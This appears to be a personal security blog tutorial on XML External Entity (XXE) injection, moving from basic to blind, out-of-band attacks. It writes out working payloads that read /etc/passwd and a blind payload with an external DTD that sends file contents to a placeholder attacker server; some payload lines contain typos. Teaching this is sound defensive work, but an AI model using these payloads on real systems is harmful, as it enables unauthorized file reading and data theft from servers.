 Hi all,

&nbsp;  Welcome to my blog of "From basic XXE to blind XXE"<br><br>

### What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 

1. Basic 
2. Blind.

Let's talk about 'basic' type:- 

For ex you have a url with a parameter that parses XML data somthing like this:- 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. You have to confirm the vulnerability existence and this can be done by something like this.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'http://yourserverip/'>]><root>&test;</root>`

Now let's understand from Doctype portion. As we define the root element i.e. root, next in the DOCTYPE we define the Entity and that entity contains SYSTEM attribute which indicate that the entity is External.

Now when you give this to miconfigured XML parser, the miconfigured XML parser will parse the results and it will process our External entity by **requesting to your server.**

So if you got a new connection in the log file then it is confirmed that you have found XXE.

### Now it's time to exploit it.

Our main target is to read local files of the web server and this can be done using this payload 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`,

The xml parser will process this payload as same as above but instead of requesting to your server now it will request to locally, with the file protocol, it will grep the file contents and shown to us. Hence, we can read local file of the webserver.

### What if the xml data is not showing to us?

Still you can confirm the existence of the vulnerability by using the first payload above. But you can't see the file contents of local files of webserver. This is still an issue but now the severity is a ***little bit low.*** And, this is called Blind XXE OR Out-of-band XXE.

So we also needed to blind means we have to use blind payload.
`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % test SYSTEM 'http://yourserver/xml.dtd'> %test; %exe]><root>&entity;</root>`
Your xml.dtd contents:- 

`<!ENTITY % file SYSTEM "file:///etc/passwd">`
`<!ENTIY % exe "<!ENTITY entity SYSTEM 'http://yourserver/%file;'>">`

Lot's of code to understand:-

we are using External dtd file i.e. `%test;`. So first the xml parser will parse this entity and make a request to your web-server for getting the contents of dtd file. Now, in that dtd file we define some entities to process. 

`%exe;` will make another general entity i.e. &entity; and that entity will make a request to our server with the *file contents.* which was found by the `%file;`

When the xml parser parses the entity `%file;`, then that entity will grep the file contents of local files of the server (which is our main target). 

Now attacker can log the request and reconstruct the file contents. 

Make sense?

Let's see the demo below.

<video src="demo.mp4" width="320" height="200" controls preload></video>


